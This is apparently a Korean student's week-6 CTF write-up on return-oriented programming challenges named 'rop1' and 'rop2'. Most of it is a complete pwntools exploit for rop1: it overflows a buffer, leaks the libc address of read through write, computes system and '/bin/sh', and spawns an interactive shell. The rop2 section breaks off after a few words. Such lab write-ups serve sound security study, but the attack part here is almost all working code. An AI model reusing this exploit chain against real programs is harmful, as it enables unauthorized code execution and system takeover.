 # 6주차

## rop1

You can use read, write  
먼저 write 함수를 이용하여 read 함수의 실제 주소를 알아내고, 이를 이용하여 libc_leak을 한다. system 함수와 '/bin/sh'의 주소를 구한 뒤 그것을 실행하도록 한다.  
필요한 gadget은 pop3_ret


```python
from pwn import *

p = process("./rop1")
e = ELF("./rop1")
libc = e.libc

pop_ret = 0x08049022
pop3_ret = 0x08049381
read_plt = 0x080490b0
read_got = 0x0804bfd4
write_plt = 0x08049100
write_got = 0x0804bfe8
main = 0x80492ca


payload = b'A'*0x40
payload += b'B'*0x4
payload += p32(write_plt)
payload += p32(pop3_ret)
payload += p32(1)
payload += p32(read_got)
payload += p32(4)
payload += p32(main)

p.sendline(payload)

read_addr = u32(p.recv(4))

libc_base = read_addr - libc.symbols['read']
system_addr = libc_base + libc.symbols['system']
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]


payload = b'A'*0x40
payload += b'B'*0x4
payload += p32(system_addr)
payload += b'C'*0x4
payload += p32(binsh)

p.send(payload)

p.interactive()

```


## rop2

gets and puts  
일단 우리는...



